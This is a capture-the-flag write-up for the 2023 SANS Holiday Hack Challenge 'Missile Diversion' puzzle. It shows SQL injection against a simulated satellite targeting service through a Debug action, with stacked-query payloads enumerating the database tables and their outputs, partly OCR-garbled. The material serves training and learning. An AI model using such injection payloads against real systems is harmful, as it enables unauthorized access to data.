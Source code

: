# Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Missile Diversion
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Thwart Jack's evil plan by re-aiming his missile at the Sun.

### Solution
Re-utilizing the same environment from before, I used the `Consumer Test Tool` to connect to `maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory`, start the `missile-targeting-system`, and then connecting to `maltcp://10.1.1.1:1026/missile-targeting-system-Directory`. This exposes the `Debug` Action Service along with 4 Parameter Services: `PointingMode`, returning the current pointing mode, `X` and `Y`, returning the coordinates, and `Debug`, returning the last output from the `Debug` Action Service. Trying to set `X`, `Y` and `PointingMode` was not giving any result. I then tried submitting the `Debug` Action without any input and the `Debug` Parameter Service returned the string `VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204`, clearly identifying the interaction with a DB. I tested the action service for common SQL injection by using the attribute value to inject the payload, eventually finding `;[PAYLOAD]` as a resilient injection pattern. I then enumerated the tables in the database and their content:
> **Query**: ; SELECT * FROM pointing_mode_to_str
> id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth.  
> id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. \|

| ; SELECT * FROM user_variables | java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables |
| ; SELECT * FROM messaging | id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|  
id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \|
11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|
id: 3 msg_type: LaunchCode \| msg_data: DLG2209TVX \|
id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED
id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED
id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|
id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|
id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|
id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \| |
| ; SELECT * FROM pointing_mode | id: 1 \| numerical_mode: 0 \| |
| ; SELECT * FROM target_coordinates | id: 1 lat: 1.14514 \| Ing: -145.262 \| |
| ; SELECT * FROM satellite_query | jid: 1 \| object: ........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java \| results: import java.io.Serializable;
# Output removed to shorten report
public class SatelliteQueryFileFolderUtility implements Serializable {
# Output removed to shorten report |


